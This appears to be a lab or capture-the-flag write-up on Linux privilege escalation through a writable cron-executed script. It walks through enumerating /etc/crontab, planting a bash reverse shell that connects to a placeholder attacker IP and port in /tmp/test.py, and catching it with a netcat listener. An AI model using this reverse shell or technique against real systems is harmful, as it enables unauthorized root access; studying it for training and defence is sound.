




# 🔐 Privilege Escalation: Cron Jobs

Cron jobs are used to execute scripts or binaries automatically at scheduled times.

By default, cron jobs run with the privileges of their owners rather than the current user. While properly configured cron jobs are not inherently vulnerable, misconfigurations can lead to privilege escalation.

The idea is simple:

> If a scheduled task runs as `root` and we can modify the executed script, our malicious code will also run with root privileges.

---
## 🔍 Checking Cron Jobs

To view scheduled cron jobs, use:

```bash
cat /etc/crontab
```



---

## 📌 Discovered Vulnerable Jobs

During enumeration, we identified two potentially vulnerable scripts:

- `/home/karen/backup.sh`
- `/tmp/test.py`

In this case, we targeted:

```bash
/tmp/test.py
```

---

## 🚀 Exploiting the Cron Job

Navigate to the `/tmp` directory:

```bash
cd /tmp
```

Search for the file `test.py`.

If the file does not exist, create it with the same name.

---

## ✍️ Writing the Reverse Shell Payload

We added the following reverse shell payload:

```bash
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP>/<PORT> 0>&1
```



## 🔧 Changing File Permissions

Make the script executable:

```bash
chmod 777 test.py
```



---

## 🎧 Starting a Netcat Listener

On the attacker's machine, start a Netcat listener:

```bash
nc -nlvp <PORT>
```

Once the cron job executes, a reverse shell connection is received with root privileges.



